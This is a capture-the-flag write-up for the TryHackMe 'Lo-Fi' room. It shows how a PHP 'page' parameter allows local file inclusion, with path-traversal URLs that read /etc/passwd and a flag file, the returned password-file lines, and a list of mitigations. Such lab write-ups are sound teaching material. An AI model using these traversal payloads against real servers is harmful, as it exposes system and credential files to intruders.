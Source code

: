 
# TryHackMe – Lo-Fi Write-Up

**Machine Name**: Lo-Fi  
**Difficulty**: Easy  
**Category**: Web  
**IP**: `10.10.40.57`  

---

## Summary

This machine presented a classic **Local File Inclusion (LFI)** vulnerability in a PHP web application. By manipulating the URL parameters, I was able to read arbitrary files on the server, including the system’s `/etc/passwd` and ultimately retrieve the flag from `flag.txt`.

---

## Recon

### Step 1: Access the Target Website

I began by browsing the web server hosted at:

```
http://10.10.40.57
```

The page displays a Lo-Fi themed site with links like:

```
http://10.10.40.57/?page=Relax
```

Clicking around revealed a pattern in the URL — the `page` parameter was being used to dynamically load content. This is a common setup vulnerable to **Local File Inclusion (LFI)**.

---

## Exploitation

### Step 2: Test for LFI

To test for LFI, I tried accessing the Linux password file using relative path traversal:

```
http://10.10.40.57/?page=../../../../../etc/passwd
```

And successfully got the following output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
...
www-data:x:33:33:www-data:/var/www:/bin/sh
...
```

This confirmed that the server was vulnerable to Local File Inclusion.

---

## Capture the Flag

### Step 3: Locate and Read the Flag

Knowing that LFI was possible, I guessed a potential location for the flag file:

```
http://10.10.40.57/?page=../../../../../flag.txt
```

The server responded with:

```
flag{.............}
```

---

## Conclusion

The Lo-Fi machine was successfully pwned using a simple LFI vulnerability. This exercise highlights the importance of validating and sanitizing user input in URL parameters, especially when including files dynamically.

---

## Mitigation

To prevent LFI vulnerabilities:

- Avoid directly including files based on user input.
- Sanitize and whitelist valid inputs.
- Disable error messages in production.
- Use frameworks or routing systems that abstract file inclusion logic securely.

---
